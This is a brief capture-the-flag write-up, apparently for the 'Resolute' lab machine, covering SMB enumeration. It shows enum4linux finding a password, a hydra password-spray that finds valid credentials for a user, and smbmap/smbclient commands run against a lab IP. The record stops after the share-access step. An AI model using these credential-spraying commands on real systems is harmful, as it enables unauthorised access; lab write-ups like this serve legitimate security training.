 # Resolute
## Enumeration

enum4linux gave us some interesting things:
	- Some users
	- A password for marko : Welcome123!

I tried to connect as marko with the password and it was a fail 

So i decide to try with hydra to try every user with the password.
	```bash 
	hydra -L names.txt -P password.txt 10.10.10.169 smb
	```

[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!

so i can connect and enum as melanie with smbclient - smbmap
	
	```bash
	smbmap -u melanie -H 10.10.10.169 -p Welcome123!
	smbclient //10.10.10.169/SYSVOL -U melanie -p
	```
